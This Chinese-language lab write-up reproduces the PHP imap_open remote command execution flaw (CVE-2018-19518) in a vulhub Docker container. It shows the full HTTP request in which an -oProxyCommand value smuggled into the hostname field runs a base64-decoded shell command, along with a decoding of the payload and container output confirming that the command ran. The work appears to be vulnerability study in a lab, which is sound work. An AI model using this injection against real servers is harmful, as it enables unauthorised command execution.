 # PHP imap 远程命令执行漏洞（CVE-2018-19518）复现

---

### 环境创建

> php5.6.38
>
> ubuntu

[vulhub/php/CVE-2018-19518 at master · vulhub/vulhub (github.com)](https://github.com/vulhub/vulhub/tree/master/php/CVE-2018-19518)

```bash
docker-compose up -d
```

![image-20250202173740809](https://gitee.com/bx33661/image/raw/master/path/image-20250202173740809.png)

这里就用vulhub给的payload了

```http
POST http://43.134.9.57:7000/ HTTP/1.1
Host: 43.134.9.57:7000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 127
Origin: http://43.134.9.57:7000
Connection: keep-alive
Referer: http://43.134.9.57:7000/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

具体分析如下

```
x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh
--->

x -oProxyCommand=echo ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64 -d|sh
```

--->

`php imap扩展`用于在PHP中执行邮件收发操作。其`imap_open`函数会调用`rsh`来连接远程shell

> `rsh` 通常指 **Remote Shell**（远程 shell），是一种早期的网络协议/工具，用于在远程计算机上执行命令。以下是关键点总结

debian/ubuntu中默认使用ssh来代替rsh的功能

就是说没有经过正确的过滤可以利用ssh中`-oProxyCommand=`来调用命令，实现rce

我们可以回到docker环境检验一下结果

结果如下：
```shell
root@VM-0-9-ubuntu:/home/ubuntu/vulhub-master/php/CVE-2018-19518# docker exec -it vulhub/php:5.6-with-imap /bin/bash
Error response from daemon: No such container: vulhub/php:5.6-with-imap
root@VM-0-9-ubuntu:/home/ubuntu/vulhub-master/php/CVE-2018-19518# docker exec -it 2289e8bd5032 /bin/bash
root@2289e8bd5032:/var/www/html# ls
index.php
root@2289e8bd5032:/var/www/html# cd /tmp
root@2289e8bd5032:/tmp# ls
test0001
root@2289e8bd5032:/tmp# 
```

> 从回显来看，我们没有建立连接，但是结果还是命令执行了

